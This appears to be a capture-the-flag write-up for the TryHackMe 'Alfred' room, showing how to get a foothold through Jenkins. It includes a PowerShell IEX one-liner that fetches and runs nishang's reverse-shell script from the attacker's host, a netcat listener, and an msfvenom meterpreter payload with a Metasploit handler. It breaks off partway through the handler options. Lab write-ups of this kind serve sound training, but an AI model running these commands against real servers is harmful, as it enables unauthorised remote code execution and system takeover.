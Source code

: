 # foothold
now when we in Jenkins (what is [Jenkins](https://youtu.be/LFDrDnKPOTg)), the plan is create a new Project and use created project to execute a powershell to get our reverse shell. Now let get our revershell.ps from a OP github project call [nishang](https://github.com/samratashok/nishang)

```console
bibo318@parrot:~/THM/alfred$ wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
--2020-07-22 17:07:38--  https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.0.133, 151.101.192.133, 151.101.128.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.0.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4339 (4.2K) [text/plain]
Saving to: ‘Invoke-PowerShellTcp.ps1’

Invoke-PowerShellTcp.ps1 100%[=================================>]   4.24K  --.-KB/s    in 0s      

2020-07-22 17:07:38 (39.2 MB/s) - ‘Invoke-PowerShellTcp.ps1’ saved [4339/4339]
bibo318@parrot:~/THM/alfred$ python -m SimpleHTTPServer 8888 # set up the server
```
now we gonna get Jenkins to fetch our reverse shell from our server and execute it. Go to Jenkis dashboad and follow this step (read more [here](https://stackoverflow.com/questions/21276351/how-can-i-execute-shell-script-in-jenkinsfile)):
1. Click on `New Item` (left panel)
2. Give it a name + select `freestyle project` -> next
3. Go to `Build Enviroment` and insert this following:
```
powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip>:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <ip> -Port 6969
```
4. On kali, open netcat and listen for incoming shell
5. Back to Jenkin where we left, press `apply` + `save`
visite alfred.thm:8080/job/kurohat/build or press `build now` to build our project. *user flag* can be found in Desktop:

## switching to msfconsole shell
```console
bibo318@parrot:~/THM/alfred$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=<ip> LPORT=9696 -f exe -o shell.exe #create shell
bibo318@parrot:~/THM/alfred$ python -m SimpleHTTPServer 8888
```

use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.8.14.151 set LPORT 9696  run

```
msf5 exploit(multi/http/struts2_content_type_ognl) > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
```